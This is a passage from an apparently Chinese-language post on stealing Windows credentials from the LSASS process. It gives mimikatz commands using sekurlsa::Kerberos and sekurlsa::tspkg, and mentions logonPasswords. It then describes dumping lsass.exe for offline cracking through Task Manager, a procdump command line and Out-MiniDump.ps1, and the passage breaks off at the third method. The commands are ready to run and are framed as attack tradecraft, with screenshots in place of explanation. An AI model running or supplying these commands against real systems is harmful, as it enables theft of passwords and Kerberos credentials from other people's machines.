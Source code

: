 (3) **sekurlsa::Kerberos模块：**

- 
- 

```
命令：shell mimikatz.exe "privilege::debug" "sekurlsa::Kerberos" exit
```

![图片](https://mmbiz.qpic.cn/sz_mmbiz_png/MicZ6Q9ZW0xDm1loruQWy5RCLpAGfOU2Mm9BHCIBicXDL9NmaALiceWAzOTLSUNH0srzwz8ZKsSZAicK5Dy3SlbzcQ/640?wx_fmt=png&from=appmsg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

(4) sekurlsa::**tspkg****模块：**

- 
- 

```
命令：shell mimikatz.exe "privilege::debug" "sekurlsa::tspkg" exit
```

![图片](https://mmbiz.qpic.cn/sz_mmbiz_png/MicZ6Q9ZW0xDm1loruQWy5RCLpAGfOU2MMYnCzz9ibIN4bXC8s6aXQ7zDoAbS1P72gcEBIhuKIltceaGGia6j8sUw/640?wx_fmt=png&from=appmsg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

- 
- 

```
上述使用四种模块读取Lsass进程中的密码可用sekurlsa::logonPasswords模块一次性完成。
```

**离线读取Lsass.exe进程中的密码：**

(1) 导出Lsass.exe进程的四种方法：

**方法一：使用任务管理器导出**

![图片](https://mmbiz.qpic.cn/sz_mmbiz_png/MicZ6Q9ZW0xDm1loruQWy5RCLpAGfOU2MpEzw4CV7JcDRBKv4V6JaVML5avBiaKDmbJnIAKF12bTXfiblYzTHwlibA/640?wx_fmt=png&from=appmsg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

![图片](https://mmbiz.qpic.cn/sz_mmbiz_png/MicZ6Q9ZW0xDm1loruQWy5RCLpAGfOU2MH4cgPMibVXV9nvZEgFlwpvaCqW7NrCX9buvMbn4gcibrZFsR3nwzTGCw/640?wx_fmt=png&from=appmsg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

![图片](https://mmbiz.qpic.cn/sz_mmbiz_png/MicZ6Q9ZW0xDm1loruQWy5RCLpAGfOU2MyMzkLourR1eh9qPOq6Sd5y2dMNVckj2LibuFqAgs62aiafKKvgSDDF2A/640?wx_fmt=png&from=appmsg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

**方法二：使用procdump工具导出**

- 
- 

```
命令：shell procdump.exe -accepteula -ma lsass.exe lsass.dmp
```

![图片](https://mmbiz.qpic.cn/sz_mmbiz_png/MicZ6Q9ZW0xDm1loruQWy5RCLpAGfOU2MnH9v0ibueUhquggQ7BwAHWH34nmqKic3VyobDQ77pPaVNGTcvEns1MibA/640?wx_fmt=png&from=appmsg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

![图片](https://mmbiz.qpic.cn/sz_mmbiz_png/MicZ6Q9ZW0xDm1loruQWy5RCLpAGfOU2MPKZDdz3PTibOBHHZv05b1SEwfnJwy1bTNm8cQPDYSiaVcaD3MgvKh9aA/640?wx_fmt=png&from=appmsg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

**方法三：使用Out-MiniDump.ps1脚本导出**

- 
- 
- 
- 
